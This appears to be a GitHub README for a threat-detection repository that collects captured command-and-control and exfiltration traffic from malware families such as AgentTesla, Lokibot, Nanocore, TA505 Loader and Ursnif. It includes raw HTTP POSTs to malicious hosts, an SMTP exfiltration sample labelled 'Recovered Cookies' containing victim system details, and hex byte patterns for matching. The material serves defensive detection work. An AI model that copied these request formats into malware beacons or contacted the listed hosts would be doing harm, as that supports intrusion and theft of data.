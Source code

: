 ### A repo for matching on known c2 and exfil traffic keywords (ctrl+f to search)

#### AgentTesla http:
~~~
POST /zin/WebPanel/api.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)
Content-Type: application/x-www-form-urlencoded
Host: megaplast.co.rs
Content-Length: 308
Expect: 100-continue
Connection: Keep-Alive

HTTP/1.1 100 Continue

p=G1DZYwdIiDZ6V83seaZCmTT0wiCyOlXVS0OEx4YpkUAOuKO/6hfQJ%2BZD2LjpTbyu9w0gudjYXCIc0Ul74wtsvtqYLYuTR%2BlFVl%2B5deG0RnTTo6nFc1M9tx0%2BRo7WXetRdIHkmVMMSeqH%2BEroM7yttDzosvKfKgB%2BJ07oqT/YvQ6CPNW2%2BCETCU6oIlO9XYyrEy6/hYeF%2BgkfRc9xSEfZhh/7Wk0khJ4zZJ3cjEvXDxJcQWA739/yDUy4kOAndihYsWnLw1mVCHxJSJf7%2BguB9f4DpgX10NLpH
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-http.png "AgentTesla HTTP")

#### AgentTesla smtp exil:
~~~
From: office@larbaxpo[.]com
To: officelogs@larbaxpo[.]com
Date: 9 Oct 2019 17:58:19 +0100
Subject: admin/USER-PC Recovered Cookies
Content-Type: multipart/mixed;
 boundary=--boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7

----boundary_0_cac7ba32-e0f8-42d4-8b2e-71d1828e6ff7
Content-Type: text/html; charset=us-ascii
Content-Transfer-Encoding: quoted-printable

Time: 10/09/2019 17:58:13<br>UserName: admin<br>ComputerName: USE=
R-PC<br>OSFullName: Microsoft Windows 7 Professional <br>CPU: Int=
el(R) Core(TM) i5-6400 CPU @ 2.70GHz<br>RAM: 3583.61 MB<br>IP: 18=
5.183.107.236=0A<hr>
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/agenttesla-submission.png "AgentTesla Submission")

#### Lokibot

follw tcp stream, not http stream in wireshark
~~~
POST /sky/five/fre.php HTTP/1.0
User-Agent: Mozilla/4.08 (Charon; Inferno)
Host: fueda.info
Accept: */*
Content-Type: application/octet-stream
Content-Encoding: binary
Content-Key: 8DAA705A
Content-Length: 176
Connection: close

..'.......ckav.ru..
...a.d.m.i.n.......U.S.E.R.-.P.C.......U.S.E.R.-.P.C......................+................0...8.5.6.9.A.A.F.F.6.3.A.A.A.7.1.D.8.0.4.0.0.E.2.5.....Rqbay....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/lokibot.png "Lokibot")

#### Nanocore

flag on "38 00 00 00 17" pattern
~~~
00000000  38 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   8.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 f2 cf 3e 51  29 18 55 e5 1c 7a 6a 91   ......>Q ).U..zj.
00000030  03 99 38 f7 ac 3b f7 89  85 2e c4 d8               ..8..;.. ....
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-38.png "Nanocore 38")

flag on "40 00 00 00 17" pattern:
~~~
00000000  40 00 00 00 17 f5 4b 2c  c3 65 ca 9f eb bc fd 67   @.....K, .e.....g
00000010  ad 6d 0e c4 33 7d b6 40  17 17 97 a1 d9 7c 3c b3   .m..3}.@ .....|<.
00000020  04 ea d0 16 87 30 8f fa  78 9d 2a 01 c2 51 ee 07   .....0.. x.*..Q..
00000030  bd e7 23 95 3e ab a1 04  ca 56 b3 fb b7 9b b7 3a   ..#.>... .V.....:
00000040  13 e5 2b 52                                        ..+R
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/nanocore-40.png "Nanocore 40")

#### TA505 Loader:
~~~
POST /2021 HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; InfoPath.2; CIBA; MS-RTC LM 8)
Content-Length: 95
Host: windows-sys-update.com

&D=User-PC&U=admin&OS=6.1&PR=Dwm.exe%7CEXCEL.EXE%7CExplorer.EXE%7Ctaskhost.exe%7Cwindanr.exe%7CHTTP/1.1 404 Not Found
Server: nginx/1.10.3
Date: Wed, 09 Oct 2019 18:53:18 GMT
Content-Length: 0
Connection: keep-alive
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ta505-loader.png "TA505 Loader")

#### Ursnif:
~~~
POST /images/wsF0B4sp/ZaYjjdVgt73Q1BSOy_2Fofi/qF_2BfPTuK/5Ha_2F0xEvmbSfT_2/FluJ8ZF_2Fx8/g6xkZAZrZwN/2skHgzv92i_2BS/uPf4RDQvATKCgx0GZ5gez/ph_2BLcscLQkKDVw/HGZ6zA6DhGCqgPD/VTX09Q_2FUWIFyWps1/nfJ0I3rIZ/QNKbXjeu7xXa3W_2FZSX/bcWtE2zC4RafXFoRlqL/4EC4YHwclzkXrfX/58a3.bmp HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: multipart/form-data; boundary=36775038942641984568
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Content-Length: 399
Host: shoshanna.at

--36775038942641984568
Content-Disposition: form-data; name="upload_file"; filename="78C6.bin"

\.\..V.]:.o..<]......H..)E.J=x...e%3..U.@.f......].tZ..1....g..OzC.5v.?o.NL...;..)..E.G.a~.....M#;.Cu;N/.3\$....x.....R....e..5.....-mW,..	..C................n.G.|..k0...@...?I.Iu......9k^.U6tzT9.b.3....#..V.4].La....zL.h+...aa..H.D.....Ar.......3.w.<.!.-.....|F9! 3.....7
--36775038942641984568--
~~~
![alt text](https://github.com/silence-is-best/c2db/blob/master/images/ursnif.png "Ursnif POST")
